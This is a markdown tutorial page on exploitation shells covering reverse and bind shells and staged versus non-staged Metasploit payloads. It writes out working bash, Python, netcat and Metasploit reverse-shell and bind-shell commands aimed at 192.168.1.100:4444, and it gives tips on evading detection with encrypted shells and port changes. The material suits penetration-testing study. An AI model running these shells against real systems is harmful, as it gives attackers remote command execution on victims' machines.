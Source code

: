 # Exploitation Shells

##  Introduction
An **exploitation shell** is a command-line interface established after successfully exploiting a system, allowing an attacker to execute commands remotely. Shells can be categorized into **Reverse Shells** and **Bind Shells**, and they often use different types of **payloads**.

---

##  Reverse Shell
### **How It Works:**
A **Reverse Shell** is when the **target machine** initiates a connection back to the **attacker’s machine**, which is listening for incoming connections.

### **Why Use a Reverse Shell?**
- Useful when the target is behind **NAT** or a **firewall**.
- Attacker controls the session as soon as the target connects.

### **Setting Up a Listener (Attacker Machine)**
```bash
nc -lvp 4444
```
- **`-l`** → Listen mode.
- **`-v`** → Verbose output (shows connection details).
- **`-p`** → Specify port (in this case, `4444`).

### **Executing a Reverse Shell (Victim Machine)**
#### **Linux Reverse Shell (Bash)**
```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```
#### **Python Reverse Shell**
```python
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.100",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh", "-i"])
```
#### **Metasploit Reverse Shell**
```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

##  Bind Shell
### **How It Works:**
A **Bind Shell** is when the **target machine** opens a specific port and waits for the attacker to connect to it.

### **Why Use a Bind Shell?**
- Useful when the attacker cannot directly reach the target (e.g., strict outbound firewall rules).
- Less common due to **firewall filtering** and detection.

### **Starting a Bind Shell on Victim Machine**
#### **Linux Bind Shell**
```bash
nc -lvnp 4444 -e /bin/sh
```

### **Connecting to the Bind Shell (Attacker Machine)**
```bash
nc 192.168.1.100 4444
```

---

##  Staged vs Non-Staged Payloads
### **Staged Payloads**
- **Delivers the payload in small parts** to avoid detection.
- The first-stage shell establishes a connection and downloads a **larger second stage payload**.
- **Example:** `windows/meterpreter/reverse_tcp`

### **Non-Staged Payloads**
- The entire payload is **sent in one go**.
- Faster but easier to detect.
- **Example:** `windows/meterpreter_reverse_tcp`

### **TIPS:**
- If one payload **fails**, try another variant.
- Different OS versions may require different shell techniques.
- **Use encrypted shells (SSL/TLS) to avoid detection.**
- **Try different ports** (some are blocked by firewalls).

---

##  Conclusion
Understanding **Reverse Shells, Bind Shells, and Payload Types** is crucial in exploitation. Using the right payload and technique can help bypass security defenses and maintain access.

